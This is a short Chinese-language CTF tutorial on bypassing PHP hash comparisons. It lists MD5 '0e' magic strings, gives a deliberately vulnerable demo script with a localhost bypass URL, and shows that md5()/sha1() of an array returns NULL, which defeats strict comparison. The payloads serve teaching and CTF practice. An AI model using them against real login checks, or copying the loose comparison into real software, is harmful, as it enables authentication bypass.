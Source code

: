 一些 `0e` 开头的特殊字符串：

```
全数字：
240610708
0e462097431906509019562988736854

全字母：
QNKCDZO
0e830400451993494058024219903391

其他：
s878926199a
0e545993274517709034328855841020
  
s155964671a
0e342768416822451524974117254469
```

e.g.

```
<?php
error_reporting(0);
$flag = 'flag{FlagIsHere}';
if (isset($_GET['username']) and isset($_GET['password'])) {
    if ($_GET['username'] == $_GET['password'])
        print 'Your password can not be your username.';
    else if (md5($_GET['username']) == md5($_GET['password']))
        die($flag);
    else
        print 'Invalid password';
}
?>

http://127.0.0.1/ctf.php?username=240610708&password=QNKCDZO
```

二、sha1()、md5()：===

利用数组来绕过 `===` 恒等，md5()和sha1()对一个数组进行加密将返回 NULL；

而 NULL===NULL，所以可绕过判断。

```
<?php
	$a = md5(array());
	$b = sha1(array());
	var_dump($a);
	var_dump($b);
	var_dump($a === $b);
	var_dump($a == $b);
?>

NULL
NULL
bool(true)
bool(true)
```
